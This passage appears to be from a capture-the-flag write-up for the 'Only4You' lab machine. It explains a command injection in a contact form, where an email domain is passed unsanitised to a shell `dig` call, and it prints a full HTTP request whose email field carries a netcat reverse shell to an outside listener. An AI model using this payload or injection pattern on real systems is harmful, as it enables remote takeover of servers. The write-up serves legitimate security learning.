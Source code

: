 ```python

def sendmessage(email, subject, message, ip):
	status = issecure(email, ip)
	if status == 2:
		msg = EmailMessage()
		msg['From'] = f'{email}'
		msg['To'] = 'info@only4you.htb'
		msg['Subject'] = f'{subject}'
		msg['Message'] = f'{message}'

		smtp = smtplib.SMTP(host='localhost', port=25)
		smtp.send_message(msg)
		smtp.quit()
		return status
	elif status == 1:
		return status
	else:
		return status
```

Long code, but basically `insecure` checks for certain characters within the message we send, and afterwards send an email to somewhere else.&#x20;

The vulnerability lies here: `result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)`. This takes the domain part of the email without sanitisation and inserts it into a command. We can easily get RCE using `|`. By sending this query, I got a shell as `www-data`.

```http
POST / HTTP/1.1
Host: only4you.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://only4you.htb
Connection: close
Referer: http://only4you.htb/
Upgrade-Insecure-Requests: 1



name=test&email=test%40website.com+|+rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.5+4444+>/tmp/f&subject=test&message=test
```

<figure><img src="../../.gitbook/assets/image (58) (5).png" alt=""><figcaption></figcaption></figure>
